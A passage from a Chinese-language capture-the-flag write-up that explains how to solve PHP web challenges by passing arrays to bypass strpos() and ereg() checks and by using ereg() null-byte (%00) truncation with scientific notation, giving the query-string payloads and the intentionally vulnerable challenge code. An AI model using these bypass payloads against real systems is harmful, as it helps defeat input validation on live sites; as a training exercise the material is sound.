 ```
else
{
echo('

- have not been found

');
}
}
else
{
echo '

Invalid password

';
}
}
?>
```

题目通过ereg()函数判断password中是否只含有字母或数字，进而限制password长度小于8，并且值小于9999999；在此前提下用strpos()函数搜索password中是否含有“-”，若是则输出flag。

解法一，利用数组绕过strpos()函数。strpos()数组 null!=false, strlen（）数组长度为0

payload:?password[]=9999999999

解法二，利用ereg()%00截断漏洞，在用科学记数法来构造1e9满足strlen($_GET[‘password’]) < 8 && $_GET[‘password’]> 9999999这个条件，再加上“-”来满足strpos()的条件。

payload:?password=1e9%00*-*

### 12、strpos数组绕过

[http://123.206.87.240:9009/15.php](http://123.206.87.240:9009/15.php)

```
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```

构造数组绕过，并且值含有数字。
payload:?ctf[]=1

?ctf=12333%00#biubiubiu 此种方式不可，因为ereg（）存在%00截断，而strpos()则不存在
